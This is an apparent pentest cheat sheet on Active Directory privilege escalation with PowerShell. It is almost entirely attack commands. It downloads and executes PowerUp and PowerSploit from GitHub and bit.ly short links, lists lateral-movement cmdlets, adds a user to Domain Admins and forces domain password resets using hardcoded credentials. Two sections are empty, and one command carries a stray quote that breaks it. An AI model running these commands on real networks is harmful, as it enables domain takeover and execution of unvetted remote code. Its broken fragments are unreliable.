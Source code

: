 ```yaml
---
layout: default
title: Active Directory Privilege Escalation with Powershell
parent: Forensic
categories: Forensics Windows
grand_parent: Cheatsheets
has_children: true
---
```


# {{ page.title}}

## PRE-REQUISITE: Installing PowerUp and PowerSploit

- [PowerUp CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
- [PowerSploit CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerSploit.pdf)

```powershell
# ActiveDirectory Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# PowerUp Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/1PdjSHk'); . .\PowerUp.ps1

# PowerSploit Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/28RwLgo'); . .\PowerSploit.ps1

```

## LATERAL MOVEMENT
```powershell
Invoke-DCOM
Invoke-SMBExec
Invoke-PsExec
Invoke-Command
mstsc.exe
```

## TOKEN IMPERSONATION

## ADD MEMBER
```
# OPTION 1
net group "Domain admins" dfm.a /add /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a',$SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'jomivz' -Credential $Cred

# VERIFICATION
Get-DomainGroupMember -Identity 'Domain Admins'
```


## FORCE PASSWORD CHANGE
```
# OPTION 1
net user dfm.a Password123! /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a',$SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity jomivz -AccountPassword $UserPassword ' -Credential $Cred
```

## KERBEROASTING
```

```

